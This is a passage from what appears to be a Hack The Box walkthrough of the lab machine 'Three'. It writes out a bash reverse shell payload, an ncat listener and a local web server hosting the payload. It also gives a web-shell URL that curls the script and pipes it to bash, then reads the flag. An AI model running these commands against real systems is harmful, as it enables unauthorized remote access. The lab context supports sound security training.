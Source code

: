 Let's get a reverse shell by creating a new file  shell.sh containing the following bash reverse shell payload which will connect back to our local machine on port ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.076.png) 1337 .![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.077.png)

#!/bin/bash![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.078.png)

bash -i >& /dev/tcp/<YOUR\_IP\_ADDRESS>/1337 0>&1

We will start a  ncat listener on our local port  1337 using the following command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.079.png)![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.080.png)

nc -nvlp 1337![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.081.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.082.jpeg)

Let's start a web server on our local machine on  port 8000 and host this bash file. It is crucial to note here that this command for hosting the web server must be run from the directory which contains the reverse shell file. So, we must first traverse to the appropriate directory and then run the following command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.083.png)

python3 -m http.server 8000![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.084.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.085.jpeg)

We can use the  curl utility to fetch the bash reverse shell file from our local host and then pipe it to ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.086.png)bash in order to execute it. Thus, let us visit the following URL containing the payload in the browser.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.087.png)

http://thetoppers.htb/shell.php?cmd=curl%20<YOUR\_IP\_ADDRESS>:8000/shell.sh|bash ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.088.png)We receive a reverse shell on the corresponding listening port.

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.089.png)

` `The flag can be found at  /var/www/flag.txt .![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.090.png)

cat /var/www/flag.txt![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.091.png)

Congratulations, you have successfully completed Three.
